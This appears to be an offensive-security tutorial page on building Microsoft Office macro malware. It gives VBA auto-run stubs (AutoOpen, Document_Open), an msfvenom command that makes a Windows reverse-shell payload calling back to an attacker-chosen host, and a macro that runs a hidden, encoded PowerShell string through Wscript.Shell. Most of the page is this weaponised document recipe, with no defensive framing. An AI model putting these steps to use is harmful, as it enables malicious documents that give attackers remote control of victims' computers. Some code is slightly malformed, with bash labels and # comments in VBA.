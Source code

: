 # Microsoft Office

> Macro malware (sometimes known as macro viruses) takes advantage of the VBA (Visual Basic for Applications) programming in Microsoft Office macros to spread viruses, worms, and other forms of malware.

In order to create a Macro, we need to go to: **View > Macro**. Once in the code, make use of AutoOpen() and Document_Open() procedures in order to activate the macro when the document is open or re-opened.

```bash
# Executed when the document is opened
Sub AutoOpen()
  NewMacro
End Sub
#Executed when an already-open document is reopened.
Sub Document_Open()
  NewMacro
End Sub
#Main function (shellcode function)
Sub NewMacro()

End Sub
```

**Note:** Document should be saved as .docm or .doc  formats, .docx format doesn't support macros.

## Generating shellcode

```bash
#-f: Output file is HTA to Powershell.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f hta-psh -o /var/www/html/$FILENAME.hta
```

Once the shellcode has been created, we need to edit the Macro as following:

```bash
Sub AutoOpen()
  NewMacro
End Sub
Sub Document_Open()
  NewMacro
End Sub
Sub NewMacro()
  #Create a String variable that will hold our shellcode:
  Dim Str As String
  #Paste shellcode here:
  Str = "powershell.exe -nop -w hidden -e 9038402JKLADFJ.."
  Str += "jhad9u01ehfkjna81neja..........................."
  Str += "................................................"
  #Invoke Windows Host Script in order to execute this string
  CreateObject("Wscript.Shell").Run Str
End Sub
```
